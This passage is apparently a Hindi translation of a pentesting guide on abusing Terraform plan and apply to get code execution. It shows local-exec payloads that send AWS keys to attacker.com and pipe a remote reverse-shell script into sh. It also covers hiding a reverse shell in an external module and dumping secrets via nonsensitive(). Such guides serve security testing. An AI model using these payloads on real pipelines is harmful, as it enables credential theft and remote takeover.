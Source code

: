 The provider is downloaded in the `init` and will run the malicious code when `plan` is executed

You can find an example in [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

**Using an external reference**

दोनों उल्लेखित विकल्प उपयोगी हैं लेकिन बहुत छिपे हुए नहीं हैं (दूसरा अधिक छिपा हुआ है लेकिन पहले से अधिक जटिल है)। आप इस हमले को एक **अधिक छिपे हुए तरीके** से भी कर सकते हैं, इन सुझावों का पालन करके:

* Terraform फ़ाइल में सीधे rev shell जोड़ने के बजाय, आप **एक बाहरी संसाधन लोड कर सकते हैं** जिसमें rev shell हो:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
आप रिव शेल कोड [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) पर पा सकते हैं।

* बाहरी संसाधन में, **ref** फीचर का उपयोग करें ताकि **repo के अंदर एक शाखा में terraform rev shell कोड छिपा सकें**, कुछ इस तरह: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

#### Terraform Apply

Terraform apply सभी परिवर्तनों को लागू करने के लिए निष्पादित किया जाएगा, आप इसे RCE प्राप्त करने के लिए भी दुरुपयोग कर सकते हैं **एक दुर्भावनापूर्ण Terraform फ़ाइल को** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)** के साथ इंजेक्ट करके।**\
आपको बस यह सुनिश्चित करने की आवश्यकता है कि निम्नलिखित जैसे कुछ पेलोड `main.tf` फ़ाइल में समाप्त हो जाएं:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Follow the **suggestions from the previous technique** the perform this attack in a **stealthier way using external references**.

### Secrets Dumps

आप **terraform द्वारा उपयोग किए गए गुप्त मानों को डंप** कर सकते हैं `terraform apply` चलाकर, terraform फ़ाइल में कुछ इस तरह जोड़कर:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Terraform State फ़ाइलों का दुरुपयोग
